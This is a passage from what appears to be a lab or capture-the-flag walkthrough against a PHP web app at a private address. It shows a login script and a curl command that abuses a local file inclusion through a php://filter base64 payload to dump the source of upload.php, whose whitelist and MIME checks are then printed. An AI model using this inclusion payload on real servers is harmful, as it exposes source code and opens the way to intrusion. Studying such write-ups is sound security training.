 ```console
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
}
```

The upload.php file verifies the image extension through a whitelist, checks the file type, makes sure the "/" isn't entered trying to add another file type, uses md5 to encrypt the name of the image and attach the extension with which the script was uploaded.

```console
root@kali:~$ curl -s "http://192.168.179.176/?page=php://filter/convert.base64-encode/resource=upload" | sed -n '10p' | grep -oP 'PD[^<]*' | base64 -d | tee upload.php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
        <body>
                <form action='' method='post' enctype='multipart/form-data'>
                        <input type='file' name='file' id='file' />
                        <input type='submit' name='submit' value='Upload'/>
                </form>
        </body>
</html>
<?php
if(isset($_POST['submit'])) {
        if ($_FILES['file']['error'] <= 0) {
                $filename  = $_FILES['file']['name'];
                $filetype  = $_FILES['file']['type'];
                $uploaddir = 'upload/';
                $file_ext  = strrchr($filename, '.');
                $imageinfo = getimagesize($_FILES['file']['tmp_name']);
                $whitelist = array(".jpg",".jpeg",".gif",".png");

                if (!(in_array($file_ext, $whitelist))) {
                        die('Not allowed extension, please upload images only.');
                }

                if(strpos($filetype,'image') === false) {
                        die('Error 001');
                }

                if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
                        die('Error 002');
                }

                if(substr_count($filetype, '/')>1){
```